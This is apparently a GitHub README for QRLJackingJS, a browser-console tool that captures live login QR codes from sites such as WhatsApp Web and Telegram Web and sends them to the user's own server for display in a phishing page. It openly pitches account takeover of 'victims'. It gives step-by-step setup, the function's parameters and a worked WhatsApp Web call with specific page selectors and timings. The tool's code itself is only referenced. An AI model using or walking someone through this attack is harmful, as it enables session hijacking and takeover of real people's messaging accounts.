 # QRLJackingJS: Steal QR Login Session Using Your Browser Only.

Using a web browser only, this tool will copy the login QR code from your browser and send it to your own server so you can display it in a phishing page (~ real time). The QR code login method is supported by many apps including WhatsApp and Telegram, this tool will allow you to hack into victims accounts in no time.

# Documentation (Usage)


#### Step 1.

Open Firefox or Chrome (desktop verison) and go to the target website where you can find the needed QR code.

#### Step 2.

In the top address bar you can see permissions button on the left / right side. You must allow pop-ups for the target website. Also, you can allow pop-ups from the website permissions / settings list.

#### Step 3.

A. add the JQuery library code to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
From: ./code/jquery.min.js
```

B. add QRLJackingJS code (included) to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
From: ./code/qrljackingjs.js
```

#### Step 4.

Open inspect element tool in your browser then inpect the QR code or its container. Also, if there's a reload button like the one in WhatsApp Web, you can select it too to make sure that the tool will reload it automatically.

#### Step 5.

Now you are ready to start the attack. Call **QRLJackingJS()** function after adding your prefered settings.

```javascript
QRLJackingJs(
bas64ImageServerPOSTParam, // the parameter you have on your server to receive the base64 encoded image 
elementToScreenshotSelector, // the element that has the QR image in it eg. #qrCodeDiv 
attackWaitingTimeBeforeSendingEachScreenshotInSeconds, // waiting time between each screenshot sending. Recommended: 4
reloadButtonSelector, // optional: used to auto click the QR code reload element if any 
reloadButtonWaitingTimeBeforeSendingInSeconds // optional: waiting time after clicking the reload button and before sending the screenshot 
);
```

WhatsApp Web real example:

```javascript
QRLJackingJs(
'base64_image', // the parameter you have on your server to receive the base64 encoded image
'._2UwZ_:first', // the element that has the QR image in it
4, // waiting time between each screenshot sending
'._2znac:first', // used to auto click the QR code reload element if any
2 // waiting time after clicking the reload button and before sending the screenshot
);
```

### Explanation

The result is that the tool will send the QR code screenshot (._2UwZ_:first) to your server URL (the tool will ask you to enter it) each 4 seconds, the POST request parameter will be (base64_image) and the tool will auto-click the reload button (._2znac:first) then wait (2 seconds) before sending the new QR code again.

### Testing On WhatsApp Web and Telegram Web (PoC)

https://www.youtube.com/watch?v=MxbnwWJoMN0

### Official Project Documentation & Guide

Visit the project official page for step-by-step, screeshots and video guides:

https://uplody.com/lab/qrljackingjs/

### Copyrights

- QRLJackingJS Author: Mohammad F. Atwi | https://www.linkedin.com/in/mohd-atwi/
- QRLJacking Attack Author: Mohamed Abdelbasset Elnouby (@SymbianSyMoh) | https://github.com/SymbianSyMoh
- OWASP QRLJacking Attack: https://owasp.org/www-community/attacks/Qrljacking

